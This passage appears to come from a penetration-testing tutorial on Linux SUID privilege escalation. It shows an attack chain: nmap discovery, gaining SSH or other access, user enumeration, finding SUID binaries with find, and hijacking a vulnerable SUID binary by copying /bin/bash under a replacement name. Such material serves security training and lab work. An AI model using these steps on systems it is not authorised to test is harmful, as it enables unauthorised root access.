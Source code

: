 ```bash
```

**Alternative Strategies:**
- Use different directory for replacement
- Modify environment variables instead of replacing files
- Look for other exploitation vectors

---

## 🔗 Using SUID Exploitation with Other Tools

### **🎯 Complete Attack Chain: Nmap → SSH → SUID Exploitation**

This shows how SUID exploitation fits into a full penetration testing workflow.

#### **Phase 1: Discovery and Access**
```bash
# Initial network discovery
nmap -sS -sV target_ip
# Service enumeration and version detection

# Gain initial access (various methods)
ssh user@target_ip              # If SSH credentials known
exploit web_vulnerability       # Via web application
social_engineering             # Via phishing/credentials

# Basic enumeration after gaining access
whoami
id
uname -a
ls -la
```

**What This Gives You:**
- Initial foothold on target system
- Basic user account access
- System information for further exploitation
- Foundation for privilege escalation

#### **Phase 2: Privilege Escalation via SUID**
```bash
# Based on initial access, search for SUID binaries
find / -type f -perm -4000 2>/dev/null
find /home -type f -perm -4000 2>/dev/null

# Analyze discovered binaries
for binary in $(find /home -type f -perm -4000 2>/dev/null); do
    echo "=== Analyzing $binary ==="
    ls -la "$binary"
    strings "$binary" | head -20
    echo "---"
done

# Exploit most promising target
cp /bin/bash replacement_name
./vulnerable_suid_binary
```
